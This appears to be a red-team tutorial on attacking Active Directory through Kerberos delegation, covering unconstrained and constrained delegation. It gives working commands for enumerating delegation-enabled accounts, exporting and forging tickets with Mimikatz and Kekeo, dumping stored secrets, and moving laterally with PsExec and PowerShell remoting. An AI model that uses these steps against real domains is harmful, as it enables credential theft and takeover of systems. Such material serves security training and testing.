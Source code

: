 The practical use of Kerberos Delegation is to enable an application to access resources hosted on a different server. An example of this would be a web server that needs to access a SQL database hosted on the database server for the web application that it is hosting.

**types:**

**First: Unconstrained Kerberos Delegation**<br>

When a user authenticates to a computer that has unresitricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory. The reason TGTs get cached in memory is so the computer (with delegation rights) can impersonate the authenticated user as and when required for accessing any other services on that user's behalf.
```
# List unconstrained computers
## Powerview
Get-NetComputer -Unconstrained #DCs always appear but aren't useful for privesc
## ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
# Export tickets with Mimikatz
privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way
```
Then use **Pass the Hash attack** using ```Mimikatz``` to inject it into current our session :
```
mimikatz # kerberos::ptt <TheTicketPass>
mimikatz # exit
Bye!
.\PsExec.exe -accepteula \\machine.domain.local cmd
```

**Second: Constrained Kerberos Delegation** 

Constrained Delegation restricts what services an account can be delegated to, limiting exposure if an account is compromised. Once the client logged in to the delegated service 1, the service 1 ask the KDC to provide S4U2self (simillar to TGT) and S4U2proxy (simillar to TGS) using the TGT of the client. An example of this would be if we were able to compromise an AD account that had constrained delegation configured. By knowing the plaintext password or even just the NTLM hash of this account, we could generate a TGT for this account, then use the TGT to execute a ```S4U``` request for any non-sensitive user account in order to access the service as that user.
 
The following are examples of services that can be configured for delegation:
```
HTTP - Used for web applications to allow pass-through authentication using AD credentials.
WSMAN - It's utilized by PowerShell's remoting feature, allowing administrators to execute commands and scripts on remote computers.
CIFS - Common Internet File System is used for file sharing that allows delegation of users to shares.
LDAP - Used to delegate to the LDAP service for actions such as resetting a user's password.
HOST - Allows delegation of account for all activities on the host.
MSSQL - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.
```
**Constrained Delegation Exploitation**
The first thing we need to do is enumerate available delegations usint ```PowerView``` tool.
```
PS C:\>Import-Module C:\Tools\PowerView.ps1 
PS C:\>Get-NetUser -TrustedToAuth
```
After this recon we should to dump the clear text passwords from registry hive file hopping to find the delegated account password. <br>
We could do this using ```Mimikatz``` tools:
```
# token::elevate    -> is used to impersonate a token with higher privileges
# lsadump::secrets    -> dump clear text passwords
```
Now it's time to use ```Kekeo``` tool to generate our tickets and then use Mimikatz to load those tickets into memory. Let's start by generating the tickets:
```
# tgt::ask /user:<DelegatedAccountUserName> /domain:<DomainName> /password:<DelegatedAccountPassword>
```
This command used to make a TGT associated to the delegated account to make sure this account authenticated in the AD environment.<br>
Now that we have the TGT for the account that can perform delegation, we can forge TGS requests for the account we want to impersonate.
```
# tgs::s4u /tgt:<TheTGTOfTheDelegatedUser> /user:<TheAdministrativeAccountWeWantToImpersonate> /service:<ServiceName>/Machine.Domain.local
```

TheAdministrativeAccountWeWantToImpersonate ->  might be retrived from the enumeration. If we couldn't that we will use the "administrator" if it's enabled.
**Finally:** we use **mimikatz** to pass the ticket and inject it into our current session.
we should make new window of mimikatz to do that.
```
# privilege::debug
# kerberos::ptt <TGTfile> 
```
Now that the tickets are imported, we can finally create our PSSession on the target machine that the delegated account has delegation on.

```
mimikatz # exit
Bye!
PS C:> New-PSSession -ComputerName <TargetMachine.DomainName.local>
PS C:\> Enter-PSSession -ComputerName <TargetMachine.DomainName.local>
```













